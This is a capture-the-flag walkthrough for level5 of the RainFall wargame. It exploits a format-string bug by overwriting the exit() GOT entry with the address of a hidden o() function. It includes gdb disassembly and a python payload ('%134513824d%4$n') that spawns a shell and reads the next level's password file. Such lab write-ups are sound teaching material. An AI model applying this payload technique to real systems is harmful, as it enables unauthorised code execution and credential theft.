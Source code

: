 This exercise is similar to the previous one, except that this time the program makes a call to exit() and therefore never returns.

But if we take a closer look at the exit() implementation, we see that the program jumps to an address: 0x8049838. So let's try to overwrite this address!
```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
End of assembler dump.
```

We will need to find the address of the o() function and the offset of the buffer in the stack. Using gdb (`info functions`), we find the address of the o() function: 0x080484a4, which is 134513828 in decimal. Finally, we find that the offset of the buffer in the stack is 4, following the same method as for the previous levels. 

We can now craft our input and exploit the program, passing the address we want to overwrite, followed by the good amount of bytes in order to get the decimal value of the o() function address (134513828 - 4):
```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/exploit
level5@RainFall:~$ cat /tmp/exploit - | ./level5
```
After printing a lot of whitespaces a shell is open and we can display the content of the /home/level6/.pass file. We can now reach to the next level with the command `su level6` and fill in the flag found as a password.